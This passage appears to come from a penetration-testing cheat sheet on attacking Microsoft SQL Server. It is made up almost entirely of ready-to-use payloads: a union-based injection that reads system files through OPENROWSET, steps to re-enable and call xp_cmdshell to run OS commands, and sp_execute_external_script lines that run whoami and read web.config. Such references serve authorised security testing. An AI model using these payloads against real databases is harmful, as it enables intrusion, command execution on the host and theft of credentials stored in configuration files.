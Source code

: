 **Permissions**: The `BULK` option requires the `ADMINISTER BULK OPERATIONS` or the `ADMINISTER DATABASE BULK OPERATIONS` permission.

```sql
OPENROWSET(BULK 'C:\path\to\file', SINGLE_CLOB)
```

Example:

```sql
-1 union select null,(select x from OpenRowset(BULK 'C:\Windows\win.ini',SINGLE_CLOB) R(x)),null,null
```

### MSSQL Write File

```sql
execute spWriteStringToFile 'contents', 'C:\path\to\', 'file'
```

## MSSQL Command Execution

### XP_CMDSHELL

`xp_cmdshell` is a system stored procedure in Microsoft SQL Server that allows you to run operating system commands directly from within T-SQL (Transact-SQL).

```sql
EXEC xp_cmdshell "net user";
EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:';
EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';
```

If you need to reactivate `xp_cmdshell`, it is disabled by default in SQL Server 2005.

```sql
-- Enable advanced options
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;

-- Enable xp_cmdshell
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```

### Python Script

> Executed by a different user than the one using `xp_cmdshell` to execute commands

```powershell
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("getpass").getuser())'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
```
